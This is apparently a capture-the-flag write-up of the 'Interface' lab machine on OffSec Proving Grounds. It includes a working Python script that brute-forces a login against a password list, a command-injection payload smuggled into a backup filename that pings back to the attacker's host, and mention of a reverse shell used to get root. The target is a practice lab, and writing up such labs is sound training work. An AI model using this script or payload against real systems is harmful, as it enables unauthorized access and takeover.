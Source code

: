```yaml
---
title: Iterface Easy box on OffSec Proving Grounds - OSCP Preparation.
tags: [oscp easy box, PG easy box, enumeration, API, rce, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-01-21 09:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `Interface` and this post is not a fully detailed walkthrough, I will just go through the important points during the exploit process.

## Enumeration:
- Nmap:
![image](/assets/img/sample/pg-interface/nmap.png)

- port `80` is running a node.js app
- We can get the full list of users from: http://interface.pg/api/users.

- Running `ffuf` on http://interface.pg/api/ gives us some other endpoints:
	* `/backup` , Status code: 401
	* `/settings`, Status code: 401

- bruteforce the login page with this script (you can use hydra or other tools for that!):

```python
#!/usr/bin/env python

from concurrent.futures import ThreadPoolExecutor as executor
import requests,sys


headers = {"Content-Type": "application/json", "Host": "interface.pg"}


def printer(url):
	sys.stdout.write(url+"                                                                       \r")
	sys.stdout.flush()
	return True

#@snoop
def Login(USERNAME, PASSWORD):
	printer("Trying: "+USERNAME+":"+PASSWORD)
	data = {"username":"USERNAME", "password":"PASSWORD"}
	data['username'] = USERNAME
	data['password'] = PASSWORD
	req = requests.post("http://interface.pg/login", json=data, headers=headers)
	if req.status_code != 401:
		print(str(req.status_code)+" | Creds> "+USERNAME+":"+PASSWORD)
		print('\n')
		exit(0)


users = open('users.txt', 'r')
for user in users:
	USERNAME = user.strip('\n')
	passwds = open('/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt', 'r')
	with executor(max_workers=20) as exe:
		[exe.submit(Login, USERNAME, passwd.strip('\n')) for passwd in passwds]

``` 

- We got a valid Credentials:
	* User: `dev-acct`
	* Pass: `password`

![image](/assets/img/sample/pg-interface/creds.png)

- Now we can access `/api/settings` endpoint:
![image](/assets/img/sample/pg-interface/access-settings.png)

- if you take a look at the response from the picture above you will notice that `"admin":false` looks juicy, let's try to get admin access:
![image](/assets/img/sample/pg-interface/admin.png)

- Now since we have admin privilege, we can access `/api/backup` endpoint.

## Command Injection:
- apparently the application takes a filename and create a backup, let's try and exploit that:
> Checking the RCE with this payload: `; ping -c 3 MY_IP_ADDRESS;`

![image](/assets/img/sample/pg-interface/rce.png)

* I got the ping hits on my local machine which confirms the RCE:
![image](/assets/img/sample/pg-interface/ping.png)


- I used a bash reverse shell [payload](https://bing0o.github.io/posts/reverse-shell-generator/) to get a shell as root:

![image](/assets/img/sample/pg-interface/root.png)

Happy Hacking!